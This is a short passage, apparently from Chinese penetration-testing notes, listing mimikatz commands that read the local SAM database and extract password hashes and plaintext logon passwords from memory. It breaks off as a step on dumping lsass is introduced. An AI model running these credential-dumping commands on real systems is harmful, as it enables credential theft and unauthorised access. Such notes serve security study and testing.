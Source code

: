 ![](/assets/images/move/2020-07-04-10-37-47.png)

- 使用 mimikatz直接读取本地 SAM 文件

  ```cmd
  mimikatz.exe "privilege::Debug" "token::elevate" "lsadump::sam"
  ```

**5. 使用 mimikatz 在线读取 SAM 文件** -> 获取 Hash 及明文密码

```cmd
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"
```


**6. 使用 mimikatz 离线读取 lsass.dmp 文件**

在 Windows NT 6 中，可直接在任务管理器进行 Dump 操作：

